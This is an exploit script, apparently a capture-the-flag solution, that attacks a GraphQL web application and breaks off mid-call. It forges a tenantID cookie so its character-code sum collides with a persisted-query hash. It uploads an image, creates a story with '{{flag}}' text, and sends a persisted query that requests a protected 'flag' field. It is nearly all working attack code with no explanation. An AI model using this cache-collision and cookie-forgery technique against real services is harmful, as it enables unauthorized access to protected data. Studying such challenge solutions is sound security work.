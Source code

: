 ```python
query = """
query Q($id: Int!){ 
    flag
    story(id: $id) {
        id
        text
        image {
            url
        }
    }
}
"""
query_hash = hashlib.sha256(query.encode()).hexdigest()
query_sum = sum([ord(c) for c in query_hash])
diff = (char_sum - query_sum + 5000) % 5000
new_tenantID = "z" * (diff // ord("z")) + chr(diff % ord("z"))

s2 = requests.session()
s2.cookies["tenantID"] = new_tenantID

assert char_sum == sum([ord(c) for c in query_hash + s2.cookies["tenantID"]])

r = s2.post(
    URL + "api/graphql",
    files={
        "operations": (
            None,
            '{"operationName":"UploadImage","variables":{"file":null},"query":"mutation UploadImage($file: Upload!) {\\n  uploadImage(file: $file)\\n}"}',
        ),
        "map": (None, '{"1":["variables.file"]}'),
        "1": ("favicon.png", open("k.png", "rb").read(), "image/png"),
    },
)
print(r.text)
image = r.json()["data"]["uploadImage"]

r = sendGraphql(
    """
mutation {
    createStory(story: { image: %d, text: "{{flag}}", action: "barbar"}) {
        id
        text
        action
    }
}
"""
    % image,
    s2,
)
print(r.text)
story_id = r.json()["data"]["createStory"]["id"]

r = sendGraphql(
    query,
    s2,
    variables={"id": story_id},
    extensions={"persistedQuery": {"version": 1, "sha256Hash": query_hash}},
)
print(r.text)

r = sendGraphql(
    """
```